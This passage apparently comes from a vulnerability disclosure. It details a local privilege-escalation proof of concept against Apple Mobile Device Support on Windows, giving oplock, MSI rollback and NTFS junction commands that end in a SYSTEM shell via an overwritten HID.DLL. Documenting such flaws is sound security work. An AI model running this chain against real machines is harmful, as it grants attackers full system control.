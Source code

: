 This means that we can carefully craft a chain of events that will do the following:
1. Prepare oplock to halt the process at a convenient time for us to prepare exploitation steps
2. Restart service, oplock is triggered and the process is halted
3. Prepare our MSI rollback trick using FolderOrFileDeleteToSystem.exe
4. Prepare our NTFS junction to point file deletion primitive to Config.MSI prepared by the MSI rollback trick step using FolderContentsDeleteToFolderDelete.exe
5. Release the oplock

## Proof Of Concept
The Proof of Concept consists of 5 steps.

1. Set Oplock on C:\ProgramData\Apple\Lockdown\
```
.\SetOpLock.exe C:\ProgramData\Apple\Lockdown\
```
<img title="a title" alt="Alt text" src="/images/setoplock.png">

2. Trigger service restart
 Apps -> Installed apps -> Apple Mobile Device Support -> Modify -> Repair

3. Prepare MSI rollback trick
```
.\FolderOrFileDeleteToSystem.exe
```

4. Prepare Windows Junction (symlink) step to point the service arbitrary folder/file deletion primitive to the MSI installer
```
.\FolderContentsDeleteToFolderDelete.exe /target 'C:\Config.Msi' /initial "C:\ProgramData\Apple\Lockdown"
```

5. Release Oplock

When the Oplock is released in step five, we monitor FolderContentsDeleteToFolderDelete process to verify that the NTFS junciton was followed and that the Config.MSI located in C:\ was correctly deleted. Then we monitor the FolderOrFileDeletionToSystem.exe process to verify that we win the race condition and that the "malicious" Config.MSI folder with the modified rollback script is written. If everything goes right, we can CTRL+ALT+DELETE, open the Accessibility menu in the lower right hand corner and open the On-screen Keyboard. Because we have overwritten the HID.DLL in C:\Program Files\Common Files\microsoft shared\ink\HID.DLL using the malicious rollback script a CMD shell will pop as SYSTEM finishing our exploit.
<img title="a title" alt="Alt text" src="/images/foldercontentsdeletetofolderdelete.png">
